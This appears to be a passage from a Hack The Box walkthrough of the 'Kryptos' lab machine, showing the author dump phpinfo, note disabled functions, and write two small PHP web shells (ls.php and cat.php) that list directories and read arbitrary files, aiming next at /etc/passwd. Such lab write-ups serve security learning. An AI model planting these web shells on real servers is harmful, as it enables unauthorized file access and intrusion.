 
Let\'s give a shot to `read.sh`.

```
# ./read.sh info.php > info.html
```

<a class="image-popup">
![1ffdb626.png](/assets/images/posts/kryptos-htb-walkthrough/1ffdb626.png)
</a>

Plenty of disabled functions :angry:

### Getting a Low-Privilege Shell

Looks like I can only perform very specific PHP functions like `scandir`, `file_get_contents`, etc. Well, let's go ahead and create specific PHP files, `ls.php` and `cat.php`, corresponding to their Linux counterparts respectively.

```
# ./write.sh ls.php '<?php echo "\n\n\n\n\n"; print_r(scandir($_GET[0])); ?>'
# ./write.sh cat.php '<?php echo "\n\n\n\n\n"; echo base64_encode(file_get_contents($_GET[0])); ?>'
```

It's customary to read `/etc/passwd`.


[1]: https://www.hackthebox.eu/home/machines/profile/183
[2]: https://www.hackthebox.eu/home/users/profile/2571
[3]: https://www.hackthebox.eu/home/users/profile/21927
[4]: https://www.hackthebox.eu/